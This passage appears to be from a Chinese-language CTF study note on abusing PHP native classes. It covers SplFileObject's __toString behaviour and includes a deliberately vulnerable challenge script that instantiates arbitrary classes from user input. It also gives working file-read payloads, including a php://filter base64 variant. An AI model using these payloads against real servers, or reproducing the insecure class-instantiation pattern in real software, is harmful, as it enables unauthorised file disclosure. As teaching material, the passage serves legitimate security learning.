 

### SplFileObject类

> 主要用于读取文件的内容

#### 主要题目形式

```php
echo new $a($b);
#echo触发SplFileObject中的__toString()方法
#需要注意一点
#该类不支持通配符，所以必须先获取到完整文件名称才行
```

### 例子

```php
<?php
highlight_file('index.php');
# 我把flag藏在一个secret文件夹里面了，所以要学会遍历啊~
error_reporting(0);
$J1ng = $_POST['J'];
$Hong = $_POST['H'];
$Keng = $_GET['K'];
$Wang = $_GET['W'];
$dir = new $Keng($Wang);
foreach($dir as $f) {
    echo($f . '<br>');
}
echo new $J1ng($Hong);
?>
```

做法：

```
J=SplFileObject&H=/secret/f11444g.php
```

> 看了资料获知：除此之外其实`SplFileObject`类，只能读取文件的第一行内容，如果想要全部读取就需要用到foreach函数，但若题目中没有给出foreach函数的话，就要用伪协议读取文件的内容

采用伪协议：

```
J=SplFileObject&H=php://filter/read=convert.base64-encode/resource=/secret/f11444g.php
```



## 获取其他信息类

### ReflectionMethod类

> ReflectionFunctionAbstract类中的getDocComment方法可以访问到注释的内容
